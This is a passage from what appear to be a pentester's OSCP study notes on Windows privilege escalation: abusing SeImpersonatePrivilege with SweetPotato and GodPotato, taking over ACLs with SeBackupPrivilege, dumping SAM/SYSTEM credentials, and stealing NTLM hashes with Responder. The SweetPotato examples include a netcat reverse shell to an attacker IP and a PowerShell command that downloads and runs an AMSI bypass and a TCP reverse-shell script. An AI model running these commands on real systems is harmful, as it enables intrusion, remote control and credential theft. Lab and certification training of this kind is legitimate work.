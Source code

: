 ```
nt authority\system
```

While PrintSpoofer provided us a straightforward exploit process to elevate our privileges, there are also other tools that can abuse _SeImpersonatePrivilege_ for privilege escalation. Variants from the _Potato_[9](https://portal.offsec.com/courses/pen-200/books-and-videos/modal/modules/windows-privilege-escalation/abusing-other-windows-components/using-exploits#fn9) family (for example _RottenPotato_, _SweetPotato_, or _JuicyPotato_) are such tools. We should take the time to study these tools as they are an effective alternative to PrintSpoofer.
	* USE **GODPOTATO** OR **SWEETPOTATO**

Sweetpotato examples:
```shell
.\SweetPotato.exe -a "C:\tools\nc.exe -e cmd.exe 192.168.45.210 1234"
./SweetPotato.exe -a "/c powershell.exe iex (New-Object Net.WebClient).DownloadString('http://<IP>:8090/amsi.txt'); iex (New-Object Net.WebClient).DownloadString('http://<IP>:8090/Invoke-PowerShellTcp2.ps1')"
```

Godpotato examples:
```
GodPotato -cmd "cmd /c whoami"
GodPotato -cmd "cmd /c whoami"
```

**SeBackupPrivilege**:
https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Acl-FullControl.ps1
```shell
Import-Module .\Acl-FullControl.ps1
Acl-FullControl -user vault\anirudh -path C:\Users\Administrator -
type C:\Users\Administrator\Desktop\proof.txt
```
#### SAM, Security and System files

With this files we can dump credentials using impacket-secretsdump. We can get this files if we are admins or maybe check for folders like windows.old and check there inside .\\Windows\\System32 folder

#### Stealing NTLM Hash with Responder
[[Cheatsheets/Mix-OSCP-CPTS/Windows/2. Attacking AD#Stealing NTLM hashes with Responder]]

#### Find some services
```
PS C:\> cd hklm:\system\CurrentControlSet\services\
PS HKLM:\system\CurrentControlSet\services\> ls | findstr /i cleanup
PS HKLM:\system\CurrentControlSet\services\> ls cleanup
```
